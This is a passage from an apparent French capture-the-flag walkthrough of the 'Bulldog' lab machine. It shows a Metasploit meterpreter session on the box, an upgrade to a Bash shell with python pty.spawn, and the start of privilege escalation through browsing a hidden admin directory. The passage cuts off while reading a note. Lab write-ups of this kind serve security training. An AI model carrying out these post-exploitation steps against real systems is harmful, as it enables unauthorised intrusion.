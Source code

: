 Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : bulldog
OS              : Linux 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 13271 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

$ python -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$
```

## Élévation de privilèges (root)

Partons à la recherche de fichiers intéressants... le répertoire _.hiddenadmindirectory_ semble être une bonne piste.

```console
django@bulldog:/home/django/bulldog$ cd /home/bulldogadmin
cd /home/bulldogadmin
django@bulldog:/home/bulldogadmin$ ls -al
ls -al
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 .
drwxr-xr-x 4 root         root         4096 Aug 24 23:16 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 22:39 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24 22:39 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24 22:40 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25 03:18 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 22:39 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25 03:18 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 22:45 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 23:20 .wget-hsts

django@bulldog:/home/bulldogadmin$ ls -al .hiddenadmindirectory
ls -al .hiddenadmindirectory
total 24
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26 03:18 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21 00:44 note

django@bulldog:/home/bulldogadmin$ cat .hiddenadmindirectory/note
cat .hiddenadmindirectory/note
Nick,

```